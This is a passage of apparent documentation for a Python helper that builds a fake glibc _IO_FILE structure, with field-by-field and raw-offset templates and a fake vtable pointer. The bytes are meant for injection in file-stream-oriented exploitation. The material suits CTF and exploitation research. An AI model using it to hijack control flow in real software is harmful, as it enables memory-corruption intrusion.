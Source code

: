 ```py
    # backing buffer 
    "_IO_buf_base":  0,                   # 0x38
    "_IO_buf_end":   0,                   # 0x40
    "_IO_save_base": 0,                   # 0x48
    "_IO_backup_base": 0,                 # 0x50
    "_IO_save_end":  0,                   # 0x58

    # linkage & housekeeping
    "_markers":      0,                   # 0x60
    "_chain":        0,                   # 0x68
    "_fileno":       1,                   # 0x70
    "_flags2":       0,                   # 0x74
    "_old_offset":   0,                   # 0x78
    "_cur_column":   0,                   # 0x80
    "_vtable_offset":0,                   # 0x82
    "_shortbuf":     0,                   # 0x83
    "_lock":         0,                   # 0x88
    "_offset":       0,                   # 0x90
    "_codecvt":      0,                   # 0x98
    "_wide_data":    0,                   # 0xa0
    "_freeres_list": 0,                   # 0xa8
    "_freeres_buf":  0,                   # 0xb0
    "__pad5":        0,                   # 0xb8
    "_mode":         0,                   # 0xc0
    "_unused2":      0,                   # 0xc4

    # pivot: fake vtable 
    "vtable":        0xdeadbeefcafebabe,  # 0xd8
}

f.load(ff, strict=True)

# dump bytes for injection
blob = f.bytes
```

Or use raw-offset template (1:1 with glibc layout):

```py
f = IOFilePlus("amd64")
f.load([
    (0x00, 0xfbad0000),           # _flags (4)
    (0x08, 0x404100),             # _IO_read_ptr
    (0x10, 0x404200),             # _IO_read_end
    (0x18, 0x0),                  # _IO_read_base
    (0x20, 0x404300),             # _IO_write_base
    (0x28, 0x404308),             # _IO_write_ptr
    (0x30, 0x0),                  # _IO_write_end
    (0x38, 0x0),                  # _IO_buf_base
    (0x40, 0x0),                  # _IO_buf_end
    (0x48, 0x0),                  # _IO_save_base
    (0x50, 0x0),                  # _IO_backup_base
    (0x58, 0x0),                  # _IO_save_end
    (0x60, 0x0),                  # _markers
    (0x68, 0x0),                  # _chain
    (0x70, 0x1),                  # _fileno
    (0x74, 0x0),                  # _flags2
    (0x78, 0x0),                  # _old_offset
    (0x80, 0x0),                  # _cur_column (2B)
    (0x82, 0x0),                  # _vtable_offset (1B, signed)
    (0x83, 0x0),                  # _shortbuf (1B)
    (0x88, 0x0),                  # _lock
    (0x90, 0x0),                  # _offset
    (0x98, 0x0),                  # _codecvt
```